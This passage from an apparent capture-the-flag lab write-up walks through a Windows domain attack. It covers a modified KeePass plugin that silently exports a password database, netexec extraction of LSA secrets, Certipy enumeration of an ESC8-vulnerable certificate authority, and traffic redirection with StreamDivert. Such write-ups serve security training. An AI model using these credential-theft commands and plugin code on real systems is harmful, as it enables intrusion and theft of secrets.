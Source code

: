 Modifications made:

  - Removed MessageBox prompts since there was no actual user in the lab.
  - Changed the export file path to store the extracted credentials in an accessible location.

```C#
<---snip--->
// build the objects needed to perform export
PwExportInfo pwExportInfo = new PwExportInfo(rootGroup, database);
FileFormatProvider fileFormat = Program.FileFormatPool.Find("KeePass XML (2.x)");
string exportFilePath = "C:\\ProgramData\\export.xml";
IOConnectionInfo iocOutput = IOConnectionInfo.FromPath(exportFilePath);
<---snip--->
```

After placing the compiled DLL in the KeePass plugin directory, the administrator password was saved in ***export.xml***.

`E:\Public\Software\KeePass2\Plugins`

![](https://photos.squarezero.dev/file/abir-images/Kaiju/15.png)
![](https://photos.squarezero.dev/file/abir-images/Kaiju/16.png)



# ADCS Vulnerability (ESC8)


Using the administrator's credentials, I established a dynamic port forwarding session:

`ssh administrator@BERSRV200 -D 1080`

Then, using netexec, I extracted secrets from the workstation:

`proxychains -q netexec smb 10.10.209.246 -u 'Administrator' -p '<REDACTED>' --local-auth --lsa`

![](https://photos.squarezero.dev/file/abir-images/Kaiju/18.png)

Next I used the ADCS module saw there is CA available in the domain.

![](https://photos.squarezero.dev/file/abir-images/Kaiju/19.png)

After that I used Certipy to enumerate certificates and found **kaiju-CA** is vulnerable to *ESC8*.

![](https://photos.squarezero.dev/file/abir-images/Kaiju/20.png)

Since port 445 was not open externally, I used [SteamDivert.exe](https://github.com/jellever/StreamDivert/tree/master) to redirect traffic.

First I created the config file with the following rule 

`tcp < 445 0.0.0.0 -> 127.0.0.1 8445`

Then I used scp to transfer all the files to the workstration. 
`scp -r /home/sz/Documents/vulnlab/labs/hard/Kaiju/StreamDivert.x64/ administrator@10.10.187.246:/c:/Users/Public/StreamDivert.x64/`
![](https://photos.squarezero.dev/file/abir-images/Kaiju/21.png)
